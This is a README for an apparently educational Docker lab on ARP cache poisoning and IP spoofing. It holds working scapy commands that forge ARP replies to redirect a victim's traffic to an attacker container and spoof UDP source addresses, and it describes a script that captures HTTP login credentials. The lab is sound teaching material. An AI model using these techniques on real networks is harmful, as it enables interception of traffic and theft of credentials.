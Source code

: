 [![CC BY-SA 4.0][cc-by-sa-shield]][cc-by-sa]

# ARP Cache Poisoning & IP Spoofing Lab

This repository contains a minimal lab setup for demoing ARP cache poisoning and IP spoofing.

- [Wikipedia: ARP Spoofing](https://en.wikipedia.org/wiki/ARP_spoofing)
- [Wikipedia: IP Spoofing](https://en.wikipedia.org/wiki/IP_address_spoofing)

> The code contained in this repository is intentionally **INSECURE** and must **NOT** be used in production!

## License

This work is licensed under a
[Creative Commons Attribution-ShareAlike 4.0 International License][cc-by-sa].

[![CC BY-SA 4.0][cc-by-sa-image]][cc-by-sa]

[cc-by-sa]: http://creativecommons.org/licenses/by-sa/4.0/
[cc-by-sa-image]: https://licensebuttons.net/l/by-sa/4.0/88x31.png
[cc-by-sa-shield]: https://img.shields.io/badge/License-CC%20BY--SA%204.0-lightgrey.svg

## Setup

- Install `docker` (and `docker-compose` if your Docker does not support `compose` directly)
- Clone this repo
- Run `docker-compose build --pull` to pull and build the images

You get three images for

- `victim`
- `attacker`
- `udpserv`

that are used by the containers described in the next section.

After the images are built, run the containers via the command:

```bash
$ docker-compose up -d
[+] Running 0/4
 ⠋ Container alice    Creating
 ⠋ Container evie     Creating
 ⠋ Container bob      Creating
 ⠋ Container udpserv  Creating
 ...
```

> For accessing the containers, refer to the section at the end of this document.

If you need to explicitly rebuild the images use `docker-compose up -d --build`.

## Configuration

There are three containers based on two images

| Name      | IP address  | MAC address       | Role            | Service         |
| --------- | ----------- | ----------------- | --------------- | --------------- |
| `alice`   | 10.10.0.101 | 00:00:00:00:00:01 | Victim          | 80/tcp (http)   |
| `bob`     | 10.10.0.102 | 00:00:00:00:00:02 | Victim          | 80/tcp (http)   |
| `evie`    | 10.10.0.103 | 00:00:00:00:00:03 | Attacker        | -               |
| `udpserv` | 10.10.0.104 | 00:00:00:00:00:04 | UDP Echo Server | 9999/udp (echo) |

## Manual ARP Cache Poisoning

Tell `alice` that the ip address of `bob` resides at `evie's` mac address.

```python
$ scapy
...
>>> a = ARP()                      # create an ARP packet
>>> a.show()                       # have a look at the ARP packet
>>> a.op = 'is-at'                 # Unsolicited ARP
>>> a.pdst = '10.10.0.101'         # L3-Dst: Alice
>>> a.psrc = '10.10.0.102'         # L3-Src: Bob
>>> a.hwdst = '00:00:00:00:00:01'  # L2-Dst: Alice
>>> a.hwsrc = '00:00:00:00:00:03'  # L2-Src: Evie
>>> a.show()                       # check the values again
>>> send(a)                        # send the Packet (on L3, for convenience)
>>> ...
```

During the attack, monitor the system's ARP cache for changes via

```bash
$ watch -d -n1 "ip neigh show"
Every 1.0s: ip neigh show

10.10.0.102 dev eth0 lladdr 00:00:00:00:00:02 REACHABLE
...
```

If the attack was successful you should be able to see the MAC address of `bob's` ip changing to `evie's` MAC address.

> `watch` executes the command `ip neigh show` (show ARP cache) every second (`-n1`) and highlights changes (`-d`).

> Sometimes the ARP cache does not get overwritten immediately - so try another time if there is no success.

## Automatic ARP Cache Poisoning

> Notes for `spoofing.py`:
>
> - Reports captured HTTP data twice (incoming and outgoing - needs filtering)
> - Sometimes packets are not captured

To start the automatic ARP cache poisoning, run on `evie`:

```bash
$ python3 spoofing.py
... # wait for output
```

and let a client do an HTTP request (on `alice`):

```bash
# HTTP GET
$ curl "http://bob/login?user=myuser&pass=mysecret"
...
# HTTP POST
$ curl "http://bob/login" --data "user=myuser&pass=mysecret"
...
```

## Manual IP Spoofing

For the IP spoofing we use a echo server that just returns the request-data 10 times to the address contained in the IP-packet's `source` field.

> To check if the UDP Echo server is running you can `nc -u 10.10.0.104 9999` from any other machine in this lab setup and send some arbitrary data. You should receive 10-times your request.

On the attacker (`evie`) create a packet that is addressed to the echo server and contains e.g. `alice's` IP address in the `src`-field.

```python
$ scapy
...
# Create a IP/UDP/Data-Packet and send it via L3 to the Server
>>> send(IP(dst='10.10.0.104', src='10.10.0.101')/UDP(dport=9999)/Raw(load="abc"))
...
```

Monitor the incoming UDP data on `alice` using:

```bash
$ tcpdump -i eth0 -X udp
...
15:21:59.013318 IP udpserv.arplab_lab-net.9999 > alice.53: 24930 updateM+ [b2&3=0x6361] [24930a] [25187q] [25441n] [25187au] [|domain]
	0x0000:  4500 003a 6ed3 4000 4011 b6ff 0a0a 0068  E..:n.@.@......h
	0x0010:  0a0a 0065 270f 0035 0026 1518 6162 6361  ...e'..5.&..abca
	0x0020:  6263 6162 6361 6263 6162 6361 6263 6162  bcabcabcabcabcab
	0x0030:  6361 6263 6162 6361 6263                 cabcabcabc
...
```

## Common docker commands

### Control containers

```bash
# Bring containers up
$ docker compose up -d
# Show logs of all containers
$ docker compose logs -f
# Bring all containers down
$ docker compose down
...
```

### List running containers

```bash
$ docker ps
CONTAINER ID   IMAGE          COMMAND               CREATED         STATUS         PORTS     NAMES
<id>           victim:1.0     "python3 app.py"      4 seconds ago   Up 2 seconds             alice
<id>           udpserv:1.0    "python3 server.py"   4 seconds ago   Up 2 seconds             udpserv
<id>           victim:1.0     "python3 app.py"      4 seconds ago   Up 2 seconds             bob
<id>           attacker:1.0   "/bin/sh"             4 seconds ago   Up 2 seconds             evie
```

### Accessing a containers shell

Start a shell in one of the containers (by name of the container):

```bash
$ docker exec -it evie /bin/bash
root@evie:/#
```
